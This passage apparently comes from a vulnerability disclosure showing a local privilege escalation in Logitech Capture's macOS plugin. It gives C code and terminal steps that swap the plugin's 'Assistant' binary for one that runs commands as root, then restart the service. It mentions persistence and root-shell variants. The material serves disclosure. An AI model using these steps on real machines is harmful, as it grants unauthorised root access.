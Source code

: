 


### Prepare the malicious Mach-O

The following c code can be compiled as the malicious dylib. The result of the `date`, `whoami` and `id` commands are redirected into the `/tmp/com.Logitech.Assistant.Service.pwn` file. The contents can be arbritrary, e.g. changing file permissions on protected files, installing persistence or providing a root terminal.
```c
/* gcc Logitech_Assistant_LPE.c -o Logitech_Assistant_LPE */
#include <stdlib.h>
int main() {
    system("date >> /tmp/com.Logitech.Assistant.Service.pwn");
    system("whoami >> /tmp/com.Logitech.Assistant.Service.pwn");
    system("id >> /tmp/com.Logitech.Assistant.Service.pwn");
    return 0;
}
```

The original `Assistant` Mach-O was preserved:
```
13:55:15-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ mv /Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/Assistant /Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/Assistant.bak
```

The malicious `Assistant` Mach-O was copied to the vulnerable path:
```c
13:55:19-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ head Logitech_Assistant_LPE.c 
/* gcc Logitech_Assistant_LPE.c -o Logitech_Assistant_LPE */
#include <stdlib.h>
int main() {
    // system("/System/Applications/Utilities/Terminal.app/Contents/MacOS/Terminal");
    system("date >> /tmp/com.Logitech.Assistant.Service.pwn");
    system("whoami >> /tmp/com.Logitech.Assistant.Service.pwn");
    system("id >> /tmp/com.Logitech.Assistant.Service.pwn");
    return 0;
}
13:55:20-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ gcc Logitech_Assistant_LPE.c -o Logitech_Assistant_LPE
13:55:21-testmac@mpro:~/Desktop/LOGITECH/CoreMediaIO_LPE$ cp Logitech_Assistant_LPE /Library/CoreMediaIO/Plug-Ins/DAL/LogiCapture.plugin/Contents/MacOS/Assistant
```


### Restart the MacOS machine or simulate a service restart 

The machine can be rebooted or the service can be restarted in order to simulate a reboot:
```bash
13:57:38-testmac@mpro:~/Desktop/LOGITECH/LOGI_CAPTURE/CoreMediaIO_LPE$ sudo launchctl kickstart -k system/com.SplitMediaLabs.LogiCapture.Assistant
Password:
```
